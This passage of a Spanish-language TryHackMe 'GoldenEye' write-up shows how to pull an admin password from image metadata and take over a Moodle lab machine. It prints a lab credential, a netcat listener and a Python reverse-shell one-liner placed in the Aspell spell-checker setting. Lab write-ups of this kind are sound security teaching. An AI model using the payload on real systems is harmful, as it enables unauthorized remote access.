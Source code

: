 El archivo menciona lo siguiente:

```shell
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.
```

De acceder a ese directorio (/dir007key/for-007.jpg) nos encontramos una imagen la cual de ser analizada con **exiftool** (un clasico lector de metadata) contiene la password del administrador. Finalmente logramos obtener nuestro usuario `admin:xWinter1995x!`

## Phase 4: Endgame

Tryhackme nos continua guiando sugiriendo que veamos Aspell, el corrector ortografico de moodle. 

![Desktop View](/assets/Posts/GoldenEye/6.png){: width="972" height="589" }
_Aspell config_

De modificar esta entrada por la reverse shell de python y setear un netcat (`nc -lnvp 8081`) en nuestra maquina deberiamos obtener una reverse shell. Adicionalmente debemos cambiar la configuracion de spell checker previo a este paso debemos ir a la configuracion de **TinyMCE HTML editor** y cambiar la eleccion de corrector de "Google SpellCheck" a "PSpellShell". 

```shell
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.123.98”,8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```
